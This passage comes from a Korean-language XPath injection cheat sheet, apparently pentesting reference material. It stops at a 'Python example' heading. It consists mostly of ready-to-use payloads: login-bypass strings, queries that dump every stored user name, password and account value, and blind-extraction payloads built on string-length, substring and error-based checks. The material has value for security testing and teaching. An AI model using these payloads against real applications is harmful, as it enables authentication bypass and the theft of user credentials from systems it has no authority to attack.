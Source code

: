 중요: **"and"는 첫 번째로 수행되는 연산임**을 주의하세요.
```
Bypass with first match
(This requests are also valid without spaces)
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
string(//user[name/text()='' or true() or '' and password/text()='']/account/text())

Select account
'or string-length(name(.))<10 or' #Select account with length(name)<10
'or contains(name,'adm') or' #Select first account having "adm" in the name
'or contains(.,'adm') or' #Select first account having "adm" in the current value
'or position()=2 or' #Select 2º account
string(//user[name/text()=''or position()=2 or'' and password/text()='']/account/text())

Select account (name known)
admin' or '
admin' or '1'='2
string(//user[name/text()='admin' or '1'='2' and password/text()='']/account/text())
```
## 문자열 추출

출력에는 문자열이 포함되어 있으며 사용자는 값을 조작하여 검색할 수 있습니다:
```
/user/username[contains(., '+VALUE+')]
```

```
') or 1=1 or (' #Get all names
') or 1=1] | //user/password[('')=(' #Get all names and passwords
') or 2=1] | //user/node()[('')=(' #Get all values
')] | //./node()[('')=(' #Get all values
')] | //node()[('')=(' #Get all values
') or 1=1] | //user/password[('')=(' #Get all names and passwords
')] | //password%00 #All names and passwords (abusing null injection)
')]/../*[3][text()!=(' #All the passwords
')] | //user/*[1] | a[(' #The ID of all users
')] | //user/*[2] | a[(' #The name of all users
')] | //user/*[3] | a[(' #The password of all users
')] | //user/*[4] | a[(' #The account of all users
```
## 블라인드 공격

### **값의 길이를 얻고 비교를 통해 추출하기:**
```bash
' or string-length(//user[position()=1]/child::node()[position()=1])=4 or ''=' #True if length equals 4
' or substring((//user[position()=1]/child::node()[position()=1]),1,1)="a" or ''=' #True is first equals "a"

substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)

... and ( if ( $employee/role = 2 ) then error() else 0 )... #When error() is executed it rises an error and never returns a value
```
### **파이썬 예제**
